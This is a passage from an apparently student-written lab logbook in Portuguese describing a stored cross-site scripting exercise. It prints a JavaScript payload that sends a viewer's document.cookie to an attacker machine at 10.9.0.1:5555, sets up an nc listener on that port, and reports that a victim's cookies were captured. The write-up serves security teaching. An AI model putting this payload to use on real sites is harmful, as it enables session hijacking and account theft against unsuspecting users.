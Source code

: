 ```javascript
<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');</script>
```

Este código injeta uma imagem no perfil, cujo src contém os cookies como parâmetro de consulta.

![Figura 6](/Images/LOGBOOK7/Task3_image1.png)

2. Preparação da Máquina do Atacante
- Iniciámos um servidor TCP na nossa máquina (com IP 10.9.0.1) para escutar conexões na porta 5555. Usámos o comando nc para configurar o servidor:

![Figura 7](/Images/LOGBOOK7/Task3_image2.png)

3. Validação do Roubo de Cookies
- Depois de guardarmos o perfil com o código malicioso, utilizámos outra conta para visualizar o perfil.

![Figura 8](/Images/LOGBOOK7/Task3_image3.png)

- Assim que o perfil foi carregado, o navegador da vítima enviou um pedido HTTP para o servidor do atacante, incluindo os cookies no URL.
